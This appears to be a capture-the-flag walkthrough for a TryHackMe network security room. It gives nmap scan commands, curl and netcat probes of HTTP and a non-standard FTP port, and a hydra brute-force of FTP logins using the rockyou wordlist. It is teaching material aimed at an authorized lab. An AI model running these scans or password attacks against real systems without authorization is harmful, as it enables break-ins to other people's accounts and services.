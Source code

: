 # Net Sec Challenge — TryHackMe

*Guided walkthrough & learning notes*

> **Difficulty:** Medium (part of the Network Security module)
> **Tools used:** `nmap`, `telnet` / `nc` / `curl`, `hydra` (and general Linux CLI)
---

## Table of contents

1. [Overview](#overview)
2. [Preparation (AttackBox)](#preparation-attackbox)
3. [Step 1 — Discovery (Nmap)](#step-1---discovery-nmap)
4. [Step 2 — Investigate HTTP](#step-2---investigate-http)
5. [Step 3 — Non-standard FTP on 10021](#step-3---non-standard-ftp-on-10021)
6. [Step 4 — Password attack with Hydra](#step-4---password-attack-with-hydra)
7. [Step 5 — Final checks & answers](#step-5---final-checks--answers)
8. [Learning notes & tips](#learning-notes--tips)
---

## Overview

This write-up walks you through the methodology to solve **Net Sec Challenge**: perform full port discovery, inspect HTTP headers/content for clues, connect manually to unusual services, and perform a controlled brute-force where allowed (FTP in-scope) to obtain the remaining answers. The community solutions confirm the expected workflow: `nmap` → manual probes (`telnet`/`curl`) → `hydra`. ([Medium][2])

---

## Preparation (AttackBox)

1. Launch the TryHackMe **AttackBox** (or use your Kali/Ubuntu).
2. Start the target VM from the room page.
3. Make sure you have these tools installed (AttackBox has them by default):

   * `nmap`
   * `telnet` (or `nc`)
   * `curl`
   * `hydra`
   * wordlists (`/usr/share/wordlists/rockyou.txt` on Kali)

---

## Step 1 — Discovery (Nmap)

Start with a wide scan to discover open ports. The room expects you to check both the first 10k ports and then all ports.

**Command — scan first 10,000 ports (fast):**

```bash
sudo nmap -sS -sV -p1-10000 -T4 -vv <TARGET_IP>
```

**Why:** `-sS` (SYN scan) for stealth/speed, `-sV` for service/version, `-p1-10000` restricts to ports <10,000 for the first question; `-T4 -vv` speeds up and shows verbose output.

**If you need to find ports outside 1–10000** (the walkthroughs note an open port >10000), scan all ports:

```bash
sudo nmap -sS -sV -p- -T4 -vv <TARGET_IP>
```

**What to look for:**

* Highest open port below 10,000 (answerable from the first scan).
* Any open port above 10,000 (revealed by `-p-`).
* How many TCP ports are open total (count from results). ([Medium][2])

---

## Step 2 — Investigate HTTP (example port: 8080)

One common result in community writeups is an HTTP service on port **8080**. Use HTTP enumeration to find hidden clues (headers, index content).

**HTTP header scan with Nmap:**

```bash
sudo nmap -p 8080 --script http-headers -sV <TARGET_IP>
```

**Or use curl to see headers and content:**

```bash
curl -I http://<TARGET_IP>:8080/
curl http://<TARGET_IP>:8080/ -L
```

**Why:** Some rooms hide flags/clues in server headers or in the returned webpage content (for example a custom `Server:` header or hidden comment). Use `curl -I` to fetch headers and `curl` or a browser to view page body. ([Medium][2])

---

## Step 3 — Non-standard FTP on 10021

Community writeups report an FTP server listening on **port 10021** (not standard 21). Manually connect to see banners and possibly usernames.

**Connect with ftp client or netcat:**

```bash
ftp <TARGET_IP> 10021
# OR
nc <TARGET_IP> 10021
# OR use curl (for banner):
curl telnet://<TARGET_IP>:10021
```

**Why:** Non-standard services are common in CTFs. Banner/version (`vsftpd 3.0.5` or similar) may be shown and indicate which service to target for auth attempts. ([GitHub][3])

---

## Step 4 — Password attack with Hydra

If the FTP service is in scope for password guessing (the lab allows it), gather usernames (they may appear in site content or headers). Create files and run `hydra` in a controlled way.

**Example steps:**

1. Create `users.txt` containing target usernames (one per line). For example:

```
alice
bob
```

2. Use `rockyou.txt` or another suitable list (be mindful of lab rules):

```bash
# Confirm the location of rockyou (Kali)
ls /usr/share/wordlists/rockyou.txt
```

3. Run hydra against FTP on the non-standard port:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://<TARGET_IP> -t 4 -V
```

**Flags explained:**

* `-L users.txt` — list of usernames
* `-P` — password list
* `-s 10021` — specify the FTP port
* `ftp://<TARGET_IP>` — target service
* `-t 4` — 4 parallel tasks (adjust for reliability)
* `-V` — verbose

**Note:** Only perform password attacks inside the TryHackMe lab (authorized). Community writeups show `hydra` finds credentials for one of the accounts. ([DEV Community][4])

---

## Step 5 — Final checks & answers

After the steps above you will have what you need to answer the room questions:

* **Highest port < 10,000:** found from the first `nmap` output (e.g., `8080`).
* **Open port > 10,000:** from the `-p-` scan (e.g., `10021`).
* **Number of TCP ports open:** count in `nmap` output.
* **Flag in HTTP server header:** extract from `curl -I` or `nmap --script http-headers`.
* **FTP credentials / FTP check:** obtain via `hydra`, then `ftp` into the service to retrieve any file/flag.

> **Example commands summary**

```bash
# Full port scan + service/version + default scripts
sudo nmap -sS -sV -sC -p- -T4 -vv <TARGET_IP>

# Focused scan for first 10000 ports
sudo nmap -sS -sV -p1-10000 -T4 -vv <TARGET_IP>

# HTTP header inspection
sudo nmap -p 8080 --script http-headers -sV <TARGET_IP>
curl -I http://<TARGET_IP>:8080/

# Connect to FTP on non-standard port
ftp <TARGET_IP> 10021
# or
nc <TARGET_IP> 10021

# Hydra brute-force for FTP (example)
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://<TARGET_IP> -t 4 -V
```

---

## Learning notes & tips

* **Start broad, then focus.** Full port scans (`-p-`) take longer but find nonstandard services; filtered runs (`-p1-10000`) answer specific questions quickly. ([ITTavern][5])
* **Manual probing matters.** `telnet`/`nc`/`curl` show raw server behavior that automated tools may not highlight. This is invaluable for spotting flags or hidden endpoints. ([InfoSec Write-ups][1])
* **Respect lab scope.** Only use aggressive password attacks (Hydra) inside authorized lab environments. Start with small `-t` parallelism and sane wordlists.
* **Record everything.** Save Nmap output (`-oN scan.txt`) and any interesting banners/pages — they’re useful for later reporting and learning.

---

## Further reading & resources

* TryHackMe — **Network Security** module description (module page). ([TryHackMe][6])
* Community walkthroughs:

  * Simple writeup / summary (Infosec Writeups). ([InfoSec Write-ups][1])
  * Medium walkthrough (Aircon). ([Medium][2])
  * GitHub repository with short writeup and commands. ([GitHub][3])
* Nmap practical guide: [https://nmap.org/book/](https://nmap.org/book/) (read the Nmap documentation for advanced flags).
* Hydra usage examples: `man hydra` and Kali docs.
* Practice resources: TryHackMe labs & HTB for more scenario-based learning. ([TryHackMe][7])

---
